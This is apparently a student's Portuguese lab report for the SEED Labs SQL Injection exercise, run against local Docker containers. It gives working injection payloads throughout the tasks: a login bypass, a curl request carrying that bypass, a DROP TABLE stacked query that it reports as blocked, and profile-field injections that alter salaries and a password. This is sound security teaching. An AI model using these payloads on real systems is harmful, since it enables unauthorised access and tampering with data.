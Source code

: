 # SEED Labs - SQL Injection

## Setup

Inicialmente adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executando de seguida os containers fornecidos no lab e abrindo uma shell com acesso direto à base de dados. Utilizamos os seguintes comandos.

`sudo nano etc/hosts`
Em seguida colocamos no final do ficheiro:
`10.9.0.5 www.seed-server.com`

`dcbuild`:docker-compose build

`dcup`:docker-compose up

## Task 1

Começamos por correr o comando  `docker exec -it mysql-10.9.0.6 bash`, para abrir uma shell no container do MySQL. Em seguida usamos `mysql -u root -pdees` para login na base de dados. Para mostrar todas as tabelas dentro da mesma, usamos os seguintes comandos

```sql
use sqllab_users;
show tables;
```

Finalmente para obtermos os dados da Alice corremos `SELECT * FROM credential WHERE name='Alice'`

Resultando em:
![Add screenshot 1 here]()

## Task 2

### Task 2.1

Dado o trecho de código no ficheiro `unsafe_home.php`, a vulnerabilidade reside no facto de que as variáveis `input_uname` e `hashed_pwd` são inseridas diretamente na query sem a devida higienização. 

Uma vez que sabemos que o username da conta do administrador é "admin", conseguimos explorar a vulnerabilidade de SQL Injection introduzindo `admin' --` no input do username:

    username: admin' --
    password: (qualquer coisa ou deixar em branco)

O `--` efetivamente transforma o resto da query num comentário, ignorando a verificação da palavra-passe.

Resultando em:
![]()!

### Task 2.2

Para realizar o mesmo ataque de SQL Injection mas na CLI usamos o comando:

```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password='

```

### Task 2.3

Para adicionar uma nova instrução normalmente usariamos um ponto e vírgula ;. No entanto, isto é prevenido como medida de segurança da extensão de PHP _mysqli_, para evitar a execução de múltiplas instruções numa só consulta.

Exemplo de uma tentativa que foi bloqueada por esta contramedida:

    Utilizador: admin'; DROP TABLE credential; --
    Palavra-passe: (qualquer coisa ou deixar em branco)


### Task 3

### Tarefa 3.1
Na página de edição de perfil, inserimos uma injeção SQL no campo `nickname`(mas podia ser qualquer um) usando o comando `', salary=12345678 WHERE name='Alice'; #`.

### Tarefa 3.2
Decidindo punir o nosso chefe utilizámos a página de edição de perfil para reduzir o salário dele, mas desta vez com o comando `', salary = '860' WHERE name='Boby'; #`.

### Tarefa 3.3
Para alterar a password do Boby usámos comando `', password=sha1('construtor') WHERE name='Boby'; #`. 



